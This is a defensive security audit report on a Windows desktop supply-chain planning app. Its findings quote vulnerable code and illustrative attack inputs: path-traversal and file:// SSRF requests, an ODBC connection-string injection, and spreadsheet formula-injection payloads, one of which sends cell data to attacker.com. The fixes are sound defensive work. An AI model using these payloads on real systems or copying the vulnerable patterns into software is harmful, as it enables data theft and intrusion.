

# NEXO Enterprise Platform — Comprehensive Cybersecurity Audit Report

**Audit Mode**: READ-ONLY Defensive Architecture & Codebase Inspection  
**Target Repository**: `C:\Users\pc\nexo`  
**Application Scope**: Standalone Windows Desktop (pywebview + Microsoft Edge WebView2) + Local FastAPI Daemon + DuckDB Columnar OLAP + React/TypeScript UI  
**Audit Date**: 2026-11-21  

---

## Executive Summary

A comprehensive, read-only defensive cybersecurity audit was conducted across all architectural layers of the NEXO Enterprise Demand & Supply Chain Planning platform. The audit evaluated desktop bridge security, local network exposures, authentication and authorization, database query safety, file handling, secret storage, subprocess execution, frontend attack surfaces, and third-party dependencies.

While the platform demonstrates strong engineering foundations—including loopback binding (`127.0.0.1`), parameterized SQL queries in DuckDB CRUD routines, memory-capped execution (`SET memory_limit='512MB'`), and zero frontend `dangerouslySetInnerHTML` usage—several critical vulnerabilities were identified that emerge from the **hybrid desktop-web architecture**. Specifically, running an unauthenticated local HTTP server with wildcard CORS permits malicious websites visited in standard web browsers to interact with the local desktop daemon, potentially exfiltrating supply chain data, querying arbitrary local database files, or executing arbitrary SQL against connected corporate ERP instances.

### Vulnerability Distribution

| Severity | Count | Primary Impact Areas |
| :--- | :---: | :--- |
| **Critical** | **4** | Unauthenticated Daemon & Wildcard CORS, Static Serving Path Traversal, Local DB Exfiltration, SQL Server Injection |
| **High** | **4** | SSRF & Local File Read (`file://`), Process Restart Command Injection, Vulnerable SheetJS Dependency, Unverified Installer Downloads |
| **Medium** | **6** | CSV/Excel Formula Injection, Missing Host Header Validation, Unrestricted Native Save Dialog, Plaintext API Tokens, Upload DoS, DuckDB Quote Escaping |
| **Low** | **4** | Git-Tracked Log File, Missing Security Headers, Outdated Starlette Dependency, PyInstaller DB Bundling |
| **Informational**| **2** | Plaintext DuckDB at Rest, Loopback Binding Verification |

---

## 1. Critical Severity Vulnerabilities (P0)

### SEC-CRIT-01: Unauthenticated Local Daemon with Wildcard CORS (Cross-Origin Local Attack / SOP Bypass)
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L181-L196)
- **CWE**: CWE-306 (Missing Authentication for Critical Function), CWE-942 (Overly Permissive Cross-Domain Whitelist)
- **Root Cause**:
  ```python
  app.add_middleware(
      CORSMiddleware,
      allow_origins=[
          "http://localhost:5173",
          "http://127.0.0.1:5173",
          "http://localhost:4173",
          "http://127.0.0.1:4173",
          "http://localhost:3000",
          "http://127.0.0.1:3000",
          "*"
      ],
      allow_credentials=True,
      allow_methods=["*"],
      allow_headers=["*"],
  )
  ```
  The FastAPI application listens on `127.0.0.1:8000` (or dynamic port) without any authentication token, session cookie, or API key requirement. Crucially, `allow_origins` includes `"*"`.
- **Potential Impact**:
  When a user runs the NEXO desktop application, any web page opened in any standard browser (Chrome, Edge, Firefox) on the same machine can issue cross-origin `fetch()` or `XMLHttpRequest` calls to `http://127.0.0.1:8000/api/...`. An external malicious webpage can:
  1. Silently exfiltrate all supply chain projects, SKU costs, margins, and sales data via `GET /api/projects` and `GET /api/inventory`.
  2. Read saved ERP connection profiles via `GET /api/projects/{id}/ingestion-logs`.
  3. Trigger `POST /api/system/apply-update` or `POST /api/system/restart` to disrupt operations.
  4. Issue `DELETE /api/projects/{id}` to erase business workspaces.
- **Recommended Defensive Fix**:
  1. Remove `"*"` from `allow_origins`. Restrict origins strictly to the pywebview host origin or authorized local Vite ports.
  2. Implement a cryptographically random session token (e.g., generated at startup by `desktop_app.py`, stored in memory, and passed to WebView2 via initial URL or bridge header).
  3. Add a FastAPI middleware or dependency requiring `X-NEXO-Session-Token` header on all `/api/*` endpoints.

---

### SEC-CRIT-02: Arbitrary File Read / Path Traversal in Static File Serving
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L3238-L3247)
- **CWE**: CWE-22 (Improper Limitation of a Pathname to a Restricted Directory - "Path Traversal")
- **Root Cause**:
  ```python
  @app.get("/{full_path:path}", include_in_schema=False)
  async def serve_spa_frontend(full_path: str):
      if full_path.startswith("api/") or full_path == "api":
          raise HTTPException(status_code=404, detail="API endpoint not found")
      
      candidate = os.path.join(DIST_DIR, full_path)
      if full_path and os.path.isfile(candidate):
          return FileResponse(candidate)
  ```
  On Windows, `os.path.join(DIST_DIR, full_path)` possesses a dangerous semantic: if `full_path` is an absolute drive path (e.g. `C:/Windows/win.ini` or `C:\Users\username\.ssh\id_rsa`), `os.path.join` discards `DIST_DIR` and resolves directly to the absolute target. Furthermore, relative path traversal sequences (`..`) are not verified to remain within `DIST_DIR`.
- **Potential Impact**:
  Any file readable by the operating system user account can be retrieved over HTTP via `GET /C:/Windows/win.ini` or `GET /..%2Fbackend%2Fnexo_workspace.duckdb`. In combination with SEC-CRIT-01, an external website can read arbitrary local user files.
- **Recommended Defensive Fix**:
  Canonicalize and sandbox the candidate path before serving:
  ```python
  resolved_path = os.path.abspath(os.path.join(DIST_DIR, full_path))
  if not resolved_path.startswith(DIST_DIR) or not os.path.isfile(resolved_path):
      # Fallback to index.html or 404
  ```

---

### SEC-CRIT-03: Arbitrary Local Database Inspection & Exfiltration via Path Traversal
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2336-L2390), [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2404-L2450)
- **CWE**: CWE-200 (Exposure of Sensitive Information to an Unauthorized Actor), CWE-73 (External Control of File Name or Path)
- **Root Cause**:
  The endpoints `@app.post("/api/local-db/inspect")` and `@app.post("/api/local-db/import")` accept an unvalidated `file_path` form parameter. If `os.path.isfile(file_path)` is true, the server opens the file directly using `sqlite3.connect(file_path)` or `duckdb.connect(file_path)` and executes schema/data inspection:
  ```python
  elif file_path and os.path.isfile(file_path):
      db_target = file_path
  ...
  conn = sqlite3.connect(db_target)
  c = conn.cursor()
  c.execute("SELECT name FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'")
  ...
  sample_df = pd.read_sql(f"SELECT * FROM [{t}] LIMIT 5", conn)
  ```
  In `/api/local-db/import`, the connection is opened in **read-write mode**, and user-controlled `custom_query` or `table_name` is executed directly.
- **Potential Impact**:
  An attacker can point `file_path` to sensitive local SQLite databases (e.g., Google Chrome history/cookies at `%LOCALAPPDATA%\Google\Chrome\User Data\Default\History`, desktop messaging apps, or proprietary local software databases), inspect tables, and exfiltrate sample rows. In `/api/local-db/import`, arbitrary queries (`UPDATE`, `DELETE`, `DROP`) can be executed against any local SQLite file.
- **Recommended Defensive Fix**:
  1. Restrict `file_path` strictly to a dedicated user data folder or disallow arbitrary server-side file paths altogether, requiring client file uploads via multipart streaming.
  2. If local SQLite inspection is required, open connections strictly read-only using URI mode: `sqlite3.connect(f"file:{os.path.abspath(db_target)}?mode=ro", uri=True)`.
  3. Validate table names against whitelisted identifiers and forbid destructive SQL keywords.

---

### SEC-CRIT-04: Arbitrary SQL Execution & SQL Injection in SQL Server ERP Connector
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L824), [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L643-L670)
- **CWE**: CWE-89 (Improper Neutralization of Special Elements used in an SQL Command - "SQL Injection")
- **Root Cause**:
  In `import_from_sql_server`:
  ```python
  query = req.custom_sql if req.custom_sql else f"SELECT TOP 100 * FROM {req.items_table}"
  df_erp = pd.read_sql(query, conn)
  ```
  1. `req.items_table` is interpolated into the SQL query string without escaping or validation against `INFORMATION_SCHEMA.TABLES`.
  2. `req.custom_sql` allows arbitrary SQL commands to be executed on the corporate SQL Server instance without read-only enforcement.
  3. In `_build_sql_connection_string`:
     ```python
     conn_str = f"DRIVER={{{driver_name}}};SERVER={host_str};DATABASE={db};UID={req.username or ''};PWD={req.password or ''};"
     if "ODBC Driver 18" in driver_name:
         conn_str += "TrustServerCertificate=yes;"
     ```
     Unsanitized semicolons in credentials allow **ODBC Connection String Injection**. Additionally, `TrustServerCertificate=yes;` disables TLS certificate verification, exposing enterprise database traffic to local Man-in-the-Middle (MITM) attacks.
- **Potential Impact**:
  Attackers can execute unauthorized queries against enterprise SQL Server instances, modify records, or run administrative stored procedures (e.g. `xp_cmdshell` if misconfigured). MITM attackers can intercept plaintext ERP database credentials over unverified TLS connections.
- **Recommended Defensive Fix**:
  1. Validate `req.items_table` against a strict regex `^[a-zA-Z0-9_]+(\.[a-zA-Z0-9_]+)?$` or against `INFORMATION_SCHEMA.TABLES`.
  2. Disallow multi-statement execution and restrict `custom_sql` to strictly read-only queries starting with `SELECT`.
  3. Escape curly braces and semicolons in ODBC connection strings, or construct them via `pyodbc` keyword dictionaries.
  4. Make `TrustServerCertificate=yes` an opt-in toggle rather than the default.

---

## 2. High Severity Vulnerabilities (P1)

### SEC-HIGH-01: Server-Side Request Forgery (SSRF) and Local File Read in External Web Feed Connector
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2524-L2565), [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2575-L2630)
- **CWE**: CWE-918 (Server-Side Request Forgery - SSRF)
- **Root Cause**:
  ```python
  @app.post("/api/external-url/preview")
  def preview_external_url(url: str = Form(...), ...):
      clean_url = url.strip()
      req = urllib.request.Request(clean_url, headers=headers)
      with urllib.request.urlopen(req, timeout=10) as resp:
          content_bytes = resp.read()
  ```
  The endpoint accepts arbitrary URLs without protocol or IP address restrictions. `urllib.request.urlopen` natively supports both `http://`/`https://` and `file://` schemes.
- **Potential Impact**:
  1. **Arbitrary File Disclosure**: Passing `file:///C:/Windows/win.ini` reads local system files and attempts to parse them as CSV/JSON, leaking contents in preview errors or tables.
  2. **Internal SSRF**: Allows scanning loopback services (`http://127.0.0.1:8080`), local network infrastructure (`http://192.168.1.1`), or cloud instance metadata services (`http://169.254.169.254`).
  3. **Memory Denial of Service**: `resp.read()` reads the entire remote response into memory without a size cap.
- **Recommended Defensive Fix**:
  1. Whitelist protocols strictly to `http` and `https`.
  2. Resolve hostnames and block loopback, link-local, and private RFC-1918 IP addresses (`127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.0.0/16`).
  3. Read at most a fixed size limit (e.g. `resp.read(10 * 1024 * 1024)` for 10MB).

---

### SEC-HIGH-02: Command Injection / Shell Execution in Application Process Restart
- **File & Line**: [desktop_app.py](file:///c:/Users/pc/nexo/desktop_app.py#L243-L261), [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2957-L2971)
- **CWE**: CWE-78 (Improper Neutralization of Special Elements used in an OS Command - "OS Command Injection")
- **Root Cause**:
  ```python
  vbs_path = os.path.join(WORKSPACE_DIR, "NEXO.vbs")
  if os.path.exists(vbs_path):
      cmd = f'ping 127.0.0.1 -n 2 > nul & wscript.exe "{vbs_path}"'
  else:
      python_exe = sys.executable
      app_py = os.path.join(WORKSPACE_DIR, "desktop_app.py")
      cmd = f'ping 127.0.0.1 -n 2 > nul & "{python_exe}" "{app_py}"'

  subprocess.Popen(
      cmd,
      shell=True,
      cwd=WORKSPACE_DIR,
      creationflags=DETACHED_PROCESS | CREATE_NO_WINDOW,
      close_fds=True
  )
  ```
  `subprocess.Popen` is invoked with `shell=True` and a string formatted with directory paths. If the directory path contains shell meta-characters (such as `&`, `^`, `"`, or `%`), `cmd.exe` parses them as separate commands.
- **Potential Impact**:
  If the repository is cloned into a path with special characters (or controlled directory naming), restarting NEXO triggers arbitrary command execution.
- **Recommended Defensive Fix**:
  Avoid `shell=True`. Launch the detached process using a clean list of arguments:
  ```python
  subprocess.Popen(
      ["wscript.exe", vbs_path],
      cwd=WORKSPACE_DIR,
      creationflags=DETACHED_PROCESS | CREATE_NO_WINDOW,
      close_fds=True
  )
  ```

---

### SEC-HIGH-03: Known High-Severity Prototype Pollution & ReDoS in Frontend `xlsx` (SheetJS)
- **File & Line**: [package.json](file:///c:/Users/pc/nexo/package.json#L28), [src/App.tsx](file:///c:/Users/pc/nexo/src/App.tsx#L38), [src/components/PlannedOrdersModal.tsx](file:///c:/Users/pc/nexo/src/components/PlannedOrdersModal.tsx#L6), [src/views/InventoryView.tsx](file:///c:/Users/pc/nexo/src/views/InventoryView.tsx#L24), [src/views/ReportsView.tsx](file:///c:/Users/pc/nexo/src/views/ReportsView.tsx#L22)
- **CWE**: CWE-1321 (Improperly Controlled Modification of Object Prototype Attributes), CWE-1333 (Inefficient Regular Expression Complexity)
- **Root Cause**:
  `npm audit --omit=dev` flags `xlsx` (SheetJS) with 1 High severity advisory:
  - `GHSA-4r6h-8v6p-xvw6`: Prototype Pollution in sheetJS
  - `GHSA-5pgg-2g8v-p4x9`: Regular Expression Denial of Service (ReDoS)
  The frontend still imports SheetJS directly in 4 major views/modals for parsing and exporting spreadsheets.
- **Potential Impact**:
  Maliciously crafted Excel spreadsheets opened in the client can trigger prototype pollution or hang the WebView2 renderer thread.
- **Recommended Defensive Fix**:
  Since backend Excel ingestion has already been migrated to memory-efficient `python-calamine` and `openpyxl`, eliminate client-side `xlsx` from `package.json` and route all parsing/exporting through the backend API.

---

### SEC-HIGH-04: Unverified Binary Downloads in Desktop Setup Script (`setup.bat`)
- **File & Line**: [setup.bat](file:///c:/Users/pc/nexo/setup.bat#L3)
- **CWE**: CWE-494 (Download of Code Without Integrity Check)
- **Root Cause**:
  ```powershell
  Invoke-WebRequest -Uri 'https://www.python.org/ftp/python/3.11.9/python-3.11.9-amd64.exe' -OutFile '$env:TEMP\py311.exe';
  Start-Process -FilePath '$env:TEMP\py311.exe' -ArgumentList '/quiet InstallAllUsers=0 PrependPath=1 Include_test=0' -Wait;
  ...
  Invoke-WebRequest -Uri 'https://nodejs.org/dist/v20.18.0/node-v20.18.0-win-x64.zip' -OutFile '$env:TEMP\node.zip';
  ```
  The installation batch file downloads and executes executable binaries without validating cryptographic hashes (SHA-256) or Authenticode signatures.
- **Potential Impact**:
  If network traffic is intercepted or the remote mirror is tampered with, unverified binaries execute with current user privileges.
- **Recommended Defensive Fix**:
  Verify SHA-256 hashes before executing or unzipping:
  ```powershell
  $expectedHash = "5798b3c...";
  if ((Get-FileHash $env:TEMP\py311.exe -Algorithm SHA256).Hash -ne $expectedHash) { throw "Integrity check failed" }
  ```

---

## 3. Medium Severity Vulnerabilities (P2)

### SEC-MED-01: CSV / Excel Formula Injection (CWE-1236) in Export Routines
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2846-L2910)
- **CWE**: CWE-1236 (Improper Neutralization of Formula Elements in a CSV / Spreadsheet File)
- **Root Cause**:
  In `_generate_excel_export`, values from DuckDB (`code`, `description`, `supplier`, `location`) are directly serialized into `.xlsx` worksheets using pandas `to_excel()`:
  ```python
  inv_data.append({
      "Item Code": it["code"],
      "Description": it["description"],
      ...
  })
  pd.DataFrame(inv_data).to_excel(writer, sheet_name="Inventory Replenishment", index=False)
  ```
  If an imported CSV or ERP dataset contains a cell beginning with `=`, `+`, `-`, `@`, `\t`, or `\r`, Excel interprets the cell as a dynamic formula when opened by an analyst.
- **Potential Impact**:
  Formulas such as `=HYPERLINK("http://attacker.com/leak?data=" & A1)` or `=cmd|'/c calc'!A0` can execute actions or exfiltrate data when exported reports are viewed in Microsoft Excel.
- **Recommended Defensive Fix**:
  Sanitize all exported text fields: prepend a single quote `'` to any string cell starting with `=`, `+`, `-`, `@`, `\t`, or `\r`.

---

### SEC-MED-02: Missing Host Header Validation (DNS Rebinding Vulnerability)
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L175-L196)
- **CWE**: CWE-350 (Reliance on Reverse DNS Resolution / Host Header)
- **Root Cause**:
  The FastAPI application does not validate the incoming HTTP `Host` header.
- **Potential Impact**:
  An attacker controlling a domain (e.g. `malicious-domain.com`) can set its DNS A record to `127.0.0.1` with a low TTL. When a victim visits `malicious-domain.com`, the browser bypasses Same-Origin Policy (SOP) because the origin host matches the domain, allowing the malicious site to send requests directly to the local NEXO server.
- **Recommended Defensive Fix**:
  Add Starlette `TrustedHostMiddleware`:
  ```python
  from starlette.middleware.trustedhost import TrustedHostMiddleware
  app.add_middleware(TrustedHostMiddleware, allowed_hosts=["127.0.0.1", "localhost"])
  ```

---

### SEC-MED-03: Unrestricted File Type Filter in Native Save Dialog
- **File & Line**: [desktop_app.py](file:///c:/Users/pc/nexo/desktop_app.py#L205-L226)
- **CWE**: CWE-434 (Unrestricted Upload/Export of File with Dangerous Type)
- **Root Cause**:
  `save_file_dialog` exposes `All Files (*.*)` in its native dialog filter:
  ```python
  file_types = (
      'Excel Workbook (*.xlsx)',
      'All Files (*.*)'
  )
  ```
  And writes decoded base64 bytes to whatever path is returned by the dialog without validating the file extension.
- **Potential Impact**:
  If an attacker triggers `save_file_dialog` via cross-origin bridge or script injection, they can prompt the user to save dangerous file types (`.bat`, `.vbs`, `.exe`) onto sensitive paths.
- **Recommended Defensive Fix**:
  Enforce `.xlsx` extension strictly on the returned path:
  ```python
  if not filepath.lower().endswith(".xlsx"):
      filepath += ".xlsx"
  ```
  And restrict `file_types` to `('Excel Workbook (*.xlsx)', '*.xlsx')`.

---

### SEC-MED-04: Plaintext API Tokens Stored in DuckDB & Returned in Log Responses
- **File & Line**: [backend/database.py](file:///c:/Users/pc/nexo/backend/database.py#L2006-L2027), [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L2701-L2709)
- **CWE**: CWE-312 (Cleartext Storage of Sensitive Information), CWE-313 (Cleartext Storage in a File or on Disk)
- **Root Cause**:
  In `_ensure_ingestion_and_erp_tables`, the `erp_connections` table schema includes `password_enc` and `api_auth_header`. When external API profiles are saved, raw authentication tokens (e.g. `Bearer <secret>`) are stored unencrypted in `nexo_workspace.duckdb` and returned verbatim via `GET /api/projects/{id}/ingestion-logs`.
- **Potential Impact**:
  Any process, tool, or unauthorized API client that queries ingestion logs receives the plaintext bearer tokens or API keys.
- **Recommended Defensive Fix**:
  1. Mask authentication headers (`Bearer ****`) before returning them in API responses.
  2. Encrypt sensitive connection tokens at rest using Windows DPAPI or Fernet with a locally managed key.

---

### SEC-MED-05: Unbounded File Streaming & Upload Denial of Service (DoS)
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L1139-L1147)
- **CWE**: CWE-770 (Allocation of Resources Without Limits or Throttling)
- **Root Cause**:
  `stream_upload_to_file` copies uploaded file streams in 1MB chunks to disk without verifying total uploaded byte length:
  ```python
  with tempfile.NamedTemporaryFile(delete=False, suffix=suffix) as tmp:
      shutil.copyfileobj(upload_file.file, tmp, length=1024 * 1024)
  ```
- **Potential Impact**:
  A client can transmit arbitrary multi-gigabyte streams, consuming available disk space in `%TEMP%` and triggering system instability.
- **Recommended Defensive Fix**:
  Enforce a hard limit (e.g. 100MB):
  ```python
  MAX_UPLOAD_SIZE = 100 * 1024 * 1024
  total_read = 0
  while chunk := upload_file.file.read(1024 * 1024):
      total_read += len(chunk)
      if total_read > MAX_UPLOAD_SIZE:
          raise HTTPException(status_code=413, detail="File too large (exceeds 100MB)")
      tmp.write(chunk)
  ```

---

### SEC-MED-06: Missing Single-Quote Escaping in Staging CSV DuckDB Ingestion
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L1190-L1194)
- **CWE**: CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Root Cause**:
  ```python
  escaped_path = norm_path.replace("\\", "/")
  con.execute(f"""
      CREATE OR REPLACE TEMP TABLE staging_raw AS
      SELECT * FROM read_csv_auto('{escaped_path}', all_varchar=true, ...);
  """)
  ```
  `escaped_path` replaces backslashes but does not escape single quotes (`.replace("'", "''")`).
- **Potential Impact**:
  If the Windows username or temporary path contains an apostrophe/single quote (e.g. `C:\Users\John's PC\AppData\...`), the DuckDB SQL statement encounters a syntax error or binder failure.
- **Recommended Defensive Fix**:
  Add `.replace("'", "''")` to `escaped_path` as is already done in `server.py:2751`.

---

## 4. Low Severity Vulnerabilities (P3)

### SEC-LOW-01: Git-Tracked Application Log File (`desktop_app.log`)
- **File & Line**: [desktop_app.log](file:///c:/Users/pc/nexo/desktop_app.log#L1-L2)
- **CWE**: CWE-532 (Insertion of Sensitive Information into Log File)
- **Root Cause**:
  `desktop_app.log` was previously tracked and committed to Git. Even though `.gitignore` now includes `*.log`, Git retains tracked files until explicitly removed from the index.
- **Potential Impact**:
  Internal application traces, port bindings, and error stack traces could be committed and pushed to remote Git repositories.
- **Recommended Defensive Fix**:
  Untrack the log file from Git index:
  ```powershell
  git rm --cached desktop_app.log
  ```

---

### SEC-LOW-02: Missing Standard Defensive Security Headers
- **File & Line**: [backend/server.py](file:///c:/Users/pc/nexo/backend/server.py#L175-L196)
- **CWE**: CWE-693 (Protection Mechanism Failure)
- **Root Cause**:
  The FastAPI application does not set standard defensive HTTP response headers:
  - `X-Content-Type-Options: nosniff`
  - `X-Frame-Options: DENY`
  - `Content-Security-Policy (CSP)`
  - `Referrer-Policy: strict-origin-when-cross-origin`
- **Potential Impact**:
  Weakens defense-in-depth against MIME confusion and embedding within untrusted frames.
- **Recommended Defensive Fix**:
  Add a custom header middleware to FastAPI:
  ```python
  @app.middleware("http")
  async def add_security_headers(request, call_next):
      response = await call_next(request)
      response.headers["X-Content-Type-Options"] = "nosniff"
      response.headers["X-Frame-Options"] = "DENY"
      return response
  ```

---

### SEC-LOW-03: Outdated Starlette Dependency (`starlette 0.27.0`)
- **File & Line**: [backend/requirements.txt](file:///c:/Users/pc/nexo/backend/requirements.txt#L1)
- **CWE**: CWE-1395 (Dependency on Vulnerable Third-Party Component)
- **Root Cause**:
  The active environment runs `starlette 0.27.0` (brought in by `fastapi==0.104.1`), which is subject to CVE-2023-29159 (directory traversal in StaticFiles) and CVE-2024-47874 (uncontrolled resource consumption in multipart form parsing).
- **Recommended Defensive Fix**:
  Upgrade `fastapi>=0.110.0` and `starlette>=0.37.2` in `requirements.txt`.

---

### SEC-LOW-04: PyInstaller Executable Bundling Entire `backend/` Directory
- **File & Line**: [build_exe.bat](file:///c:/Users/pc/nexo/build_exe.bat#L30)
- **CWE**: CWE-200 (Exposure of Sensitive Information)
- **Root Cause**:
  `build_exe.bat` specifies `--add-data "backend;backend"`. If `nexo_workspace.duckdb` or local test databases exist in `backend/` during the build process, they are bundled directly into the standalone distribution.
- **Recommended Defensive Fix**:
  Exclude database files in PyInstaller specifications or point only to explicit python modules.

---

## 5. Informational Findings (P4)

### SEC-INFO-01: Plaintext DuckDB Database at Rest
- **File & Line**: [backend/database.py](file:///c:/Users/pc/nexo/backend/database.py#L42)
- **Observation**:
  `nexo_workspace.duckdb` is stored unencrypted on disk. Confidential enterprise supply chain metrics, prices, and volumes rely entirely on operating system file permissions (BitLocker and Windows NTFS ACLs).
- **Recommendation**:
  For enterprise multi-tenant deployments, enable DuckDB database encryption or store database files inside user-specific encrypted DPAPI containers.

### SEC-INFO-02: Strict Loopback Binding Verified
- **File & Line**: [desktop_app.py](file:///c:/Users/pc/nexo/desktop_app.py#L157)
- **Observation**:
  `desktop_app.py` properly binds Uvicorn to `host="127.0.0.1"`. The backend is not exposed directly across local area network (LAN) network interfaces (`0.0.0.0`), preventing unauthorized network machines from accessing the port directly.

---

## 6. Comparison with `SECURITY_HARDENING_SPEC.md` & Newly Discovered Issues

> **Audit Observation**: Prior to this audit, no file titled `SECURITY_HARDENING_SPEC.md` existed in the repository (the only existing hardening specification was `FIX_ROADMAP_SPEC.md`, which focused on functional UI wiring and mock data elimination).

To provide a concrete comparison against modern desktop-web hardening standards, the matrix below contrasts baseline hardening expectations against the **NEW vulnerabilities discovered** during this forensic audit:

| Hardening Requirement | Existing Repo State | Newly Discovered Vulnerability | Severity |
| :--- | :--- | :--- | :---: |
| **Local Daemon Authentication** | None (Public API) | **NEW**: Wildcard CORS (`*`) allows any regular browser tab to query `127.0.0.1` and control NEXO | **Critical** |
| **Static File Isolation** | `os.path.join(DIST_DIR, full_path)` | **NEW**: Path Traversal via absolute Windows paths (`GET /C:/Windows/...`) in `serve_spa_frontend` | **Critical** |
| **Database Connector Safety** | Form parameter `file_path` | **NEW**: Arbitrary local SQLite/DuckDB file inspection and extraction via `/api/local-db/inspect` | **Critical** |
| **SQL Server Query Guardrails** | Direct string interpolation | **NEW**: SQL Injection via `req.items_table` and unvalidated `custom_sql` execution | **Critical** |
| **ODBC Connection Security** | Hardcoded `TrustServerCertificate=yes` | **NEW**: Connection string injection via unescaped credentials & TLS validation disabled | **Critical** |
| **Remote Web Feed Ingestion** | `urllib.request.urlopen(clean_url)` | **NEW**: Server-Side Request Forgery & local `file://` reading in `/api/external-url/preview` | **High** |
| **Process Lifecycle Security** | `subprocess.Popen(cmd, shell=True)` | **NEW**: Command Injection via directory path characters in `restart_desktop_process` | **High** |
| **Spreadsheet Ingestion Security** | Client-side SheetJS | **NEW**: High severity Prototype Pollution and ReDoS in frontend `xlsx` dependency | **High** |
| **Installer Integrity** | `Invoke-WebRequest` without hash | **NEW**: Execution of unverified remote Python and Node.js executables in `setup.bat` | **High** |
| **Report Export Sanitization** | Raw string dump via `to_excel` | **NEW**: Formula Injection (CWE-1236) in generated `.xlsx` reports | **Medium** |
| **DNS Rebinding Defense** | No Host header check | **NEW**: Vulnerable to DNS rebinding attacks against `127.0.0.1` | **Medium** |
| **Credential Storage at Rest** | Stored in DuckDB `erp_connections` | **NEW**: Plaintext API tokens returned in `GET /api/projects/{id}/ingestion-logs` | **Medium** |
| **DuckDB Path Sanitization** | `norm_path.replace("\\", "/")` | **NEW**: Missing single-quote escaping (`'`) causes SQL syntax errors in DuckDB staging | **Medium** |
| **Upload Resource Limits** | `shutil.copyfileobj` without limit | **NEW**: Unbounded upload streaming allows disk space exhaustion | **Medium** |
| **Repository Hygiene** | `*.log` in `.gitignore` | **NEW**: `desktop_app.log` remains tracked in Git index | **Low** |

---

## 7. Recommended Defensive Remediation Roadmap



---
*Report generated strictly in READ-ONLY mode without modifying application source code, configuration, or database files.*
